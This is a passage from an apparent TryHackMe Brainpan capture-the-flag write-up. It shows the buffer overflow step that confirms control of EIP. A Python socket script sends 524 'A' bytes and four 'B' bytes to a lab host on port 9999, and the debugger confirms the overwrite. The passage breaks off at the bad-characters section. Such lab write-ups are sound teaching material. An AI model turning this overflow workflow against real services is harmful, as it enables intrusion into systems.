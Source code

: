 
Now that we know the location of the EIP, we can start overwriting it. 


### Overwriting the EIP


We need to send 524 bytes to get to the EIP, then the EIP itself is 4 bytes long. 
We should validate that.

Lets send 524 â€˜Aâ€™ characters exactly, than 4 â€˜Bâ€™ characters.  If our calculation are correect, 
the EIP should have a value of 42424242 (The 4 B's in hex).


```python
import socket, sys

buffer = b'A' * 524
eip = b'B' * 4
payload = buffer + eip


try:
	conn = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	conn.connect(('192.168.60.15', 9999))
		
	conn.sendall(payload)
	conn.close()
	
except Exception as e:
	print(e)
	sys.exit()
```

Lets execute the script and check the debugger: 

![deubbger-validate19](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/brainpan1/img/debugger-validate19.png)


Great! Our calculation were correct.  Now its time to find the bad characters.


### Finding Bad Characters
